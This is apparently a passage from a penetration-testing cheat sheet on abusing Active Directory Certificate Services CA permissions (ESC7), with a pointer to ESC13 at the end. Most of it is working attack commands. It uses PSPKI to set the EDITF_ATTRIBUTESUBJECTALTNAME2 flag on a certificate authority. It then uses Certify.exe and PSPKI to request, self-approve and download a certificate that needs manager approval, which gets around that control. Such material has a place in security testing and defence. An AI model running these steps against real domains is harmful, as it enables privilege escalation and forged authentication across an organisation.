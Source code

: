 `ManageCA` and `ManageCertificates` rights translate to the "CA Administrator" and "Certificate Manager" ("CA Officer") respectively.

The "CA Administrator" role allows to set the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag (see **ESC6**):

```
# Check before setting the flag
Cmd > hostname
DC01
Cmd > certutil.exe -config "CA01.megacorp.local\CorpCA" -getreg "policy\EditFlags"

# Invoke SetConfigEntry
PS > "$(hostname) : $(whoami)"
WS01 : megacorp\CertAdmin
PSPKI > $configReader = New-Object SysadminsLV.PKI.Dcom.Implementation.CertSrvRegManagerD "CA01.megacorp.local"
PSPKI > $configReader.SetRootNode($true)
PSPKI > $configReader.GetConfigEntry("EditFlags", "PolicyModules\CertificateAuthority_MicrosoftDefault.Policy")
1114446
PSPKI > $configReader.SetConfigEntry(1376590, "EditFlags", "PolicyModules\CertificateAuthority_MicrosoftDefault.Policy")

# Check after setting the flag (EDITF_ATTRIBUTESUBJECTALTNAME2 should appear in the output)
Cmd > hostname
DC01
Cmd > certutil.exe -config "CA01.megacorp.local\CorpCA" -getreg "policy\EditFlags"
```

The "Certificate Manager" role allows to remotely approve pending certificate requests which can by used by an adversary to subvert the "CA certificate manager approval" protection:

```
# Request a certificate that requires manager approval with Certify
PS > .\Certify.exe request /ca:CA01.megacorp.local\CorpCA /template:ApprovalNeeded
...
[*] Request ID : 1337

# Approve a pending request with PSPKI
PSPKI > Get-CertificationAuthority -ComputerName CA01.megacorp.local | Get-PendingRequest -RequestID 1337 | Approve-CertificateRequest

# Download the issued certificate with Certify
PS > .\Certify.exe download /ca:CA01.megacorp.local\CorpCA /id:1337
```



### OID Group Link Abuse (ESC13)

- [https://posts.specterops.io/adcs-esc13-abuse-technique-fda4272fbd53](https://posts.specterops.io/adcs-esc13-abuse-technique-fda4272fbd53)
- [https://github.com/JonasBK/Powershell/blob/master/Check-ADCSESC13.ps1](https://github.com/JonasBK/Powershell/blob/master/Check-ADCSESC13.ps1)
